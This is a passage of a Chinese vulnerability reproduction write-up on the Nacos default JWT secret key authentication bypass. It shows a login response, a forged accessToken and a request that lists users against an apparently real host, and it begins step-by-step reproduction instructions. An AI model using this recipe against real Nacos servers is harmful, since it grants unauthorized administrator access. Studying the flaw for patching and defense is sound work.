 username=nacos&password=nacos  
  
响应包  
  
HTTP/1.1 200   
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTc0NTY4MDYxOH0.ZLnKCsDmI768h5_ALTANhnvD0ObfSgetZj8LmUy8TjE  
Content-Type: application/json;charset=UTF-8  
Date: Sat, 26 Apr 2025 10:16:58 GMT  
Keep-Alive: timeout=60  
Connection: keep-alive  
Content-Length: 181  
  
{"accessToken":"eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTc0NTY4MDYxOH0.ZLnKCsDmI768h5_ALTANhnvD0ObfSgetZj8LmUy8TjE","tokenTtl":18000,"globalAdmin":true,"username":"nacos"}  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiabXmFSGiac3aFzTiaW4YcFkOPnAooNLKkqruxwkTkobgiaZibjftB1UVk5w/640?wx_fmt=jpeg&from=appmsg "")  
  
客户端得到此accessToken后会使用此Token再次请求后端服务器，及通过该用户身份登录。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOiaZSuDQXVwB6SsEPtweJ135Gq1ibofrhkUyufF0AoRibZbIHb2tALxjDpQ/640?wx_fmt=jpeg&from=appmsg "")  
  
payload  
  
GET /nacos/v1/auth/users?pageNo=1&pageSize=9&accessToken=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiJuYWNvcyIsImlhdCI6MTc0NTgzNTYwOH0.gk9tFDRWDozKj-fsLAXSxnpojBklSaOVPNbUneqTSpw HTTP/1.1  
Host:   
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0  
Accept: application/json, text/plain, */*  
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2  
Accept-Encoding: gzip, deflate, br  
Origin: http://47.83.174.204:8848  
Connection: keep-alive  
Referer: http://47.83.174.204:8848/nacos/  
Priority: u=0  
  
```
```  
  
由于返回的accessToken只是对账号进行加密得到的.  
  
而且nacos加密用户accessToken使用的jwt默认密钥加密，也就是只要知到nacos的用户，任何人都能通过此密钥加密用户得到对应用户的accessToken.  
  
nacos存在默认用户nacos，所以我们可以尝试获取此默认用户的nacos。  
  
漏洞复现  
  
测试版本：nacos1.4.0  
  
1. 生成时间戳比现在时间晚就行，比如现在时间为2024.9.3，则修改为2024.9.4或者更晚的时间  
  
https://tool.lu/timestamp/  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/iar31WKQlTTrjpEujD1ZWxGGw7qZEafOia26lNcnUx5cicXWCSn86eQ7bNaJtNRXIG8rUru43bmNrJ8kNLmeh2rTQ/640?wx_fmt=jpeg&from=appmsg "")  
  
我直接生成到2080了直接用我的就行  
  
3481367106  
  